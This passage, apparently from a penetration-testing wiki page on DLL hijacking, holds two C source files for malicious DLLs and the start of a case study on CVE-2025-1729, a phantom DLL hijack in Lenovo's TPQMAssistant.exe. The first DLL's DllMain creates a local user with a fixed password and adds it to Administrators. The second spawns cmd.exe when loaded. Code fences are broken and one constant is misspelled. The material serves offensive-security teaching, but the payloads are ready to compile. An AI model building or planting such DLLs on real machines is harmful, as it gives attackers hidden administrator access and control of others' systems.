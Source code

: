 ```
    return TRUE;
}
```
```
```c
//x86_64-w64-mingw32-g++ -c -DBUILDING_EXAMPLE_DLL main.cpp
//x86_64-w64-mingw32-g++ -shared -o main.dll main.o -Wl,--out-implib,main.a

#include <windows.h>

int owned()
{
  WinExec("cmd.exe /c net user cybervaca Password01 ; net localgroup administrators cybervaca /add", 0);
  exit(0);
  return 0;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved)
{
  owned();
  return 0;
}
```
```
```c
//Another possible DLL
// i686-w64-mingw32-gcc windows_dll.c -shared -lws2_32 -o output.dll

#include<windows.h>
#include<stdlib.h>
#include<stdio.h>

void Entry (){ //Default function that is executed when the DLL is loaded
    system("cmd");
}

BOOL APIENTRY DllMain (HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call){
        case DLL_PROCESS_ATTACH:
            CreateThread(0,0, (LPTHREAD_START_ROUTINE)Entry,0,0,0);
            break;
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DEATCH:
            break;
    }
    return TRUE;
}
```
```
## Case Study: CVE-2025-1729 - Privilege Escalation Using TPQMAssistant.exe

This case demonstrates **Phantom DLL Hijacking** in Lenovo's TrackPoint Quick Menu (`TPQMAssistant.exe`), tracked as **CVE-2025-1729**.

### Vulnerability Details

- **Component**: `TPQMAssistant.exe` located at `C:\ProgramData\Lenovo\TPQM\Assistant\`.
- **Scheduled Task**: `Lenovo\TrackPointQuickMenu\Schedule\ActivationDailyScheduleTask` runs daily at 9:30 AM under the context of the logged-on user.
- **Directory Permissions**: Writable by `CREATOR OWNER`, allowing local users to drop arbitrary files.
```